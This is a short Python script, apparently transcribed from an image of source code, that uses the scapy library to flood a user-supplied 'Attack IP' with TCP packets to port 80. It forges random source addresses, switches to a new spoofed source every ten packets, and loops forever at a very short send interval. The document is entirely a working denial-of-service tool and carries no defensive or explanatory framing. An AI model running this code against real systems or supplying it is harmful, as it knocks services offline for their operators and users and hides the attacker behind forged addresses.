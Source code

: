 import random
from scapy.all import *
targetIP = raw_input("Attack IP [Target IP]: ")
i=1

def get_randomSourceIP():
       a = str(random.randint(1,254)) # a.b.c.d (for instance: a.168.1.1)
       b = str(random.randint(1,254)) # (192.b.c.d)
       c = str(random.randint(1,254)) # (192.168.c.d)
       d = str(random.randint(1,254)) # (192.168.1.d) -> 192.168.1.1
       dot = "."
       src = a+dot+b+dot+c+dot+d
       return src

while 1:
        source=get_randomSourceIP()

       print (source)

       startPort = random.randint(1,1000)
       endPort = random.randint(1000,65535)
       loop_exit = 0
       for srcport in range(startPort,endPort): #srcport named for start-end port numbers
               IP1 = IP(src=source, dst=targetIP)
               TCP1 = TCP(sport=srcport, dport=80)
               packet = IP1 / TCP1
               send(packet,inter= .0001) #to send packet
               print ("PACKET SEND!", i)
               loop_exit = loop_exit+1
               i=i+1
               if loop_exit ==10 : # Each Source IP randomly changes for every 10 steps
                        break

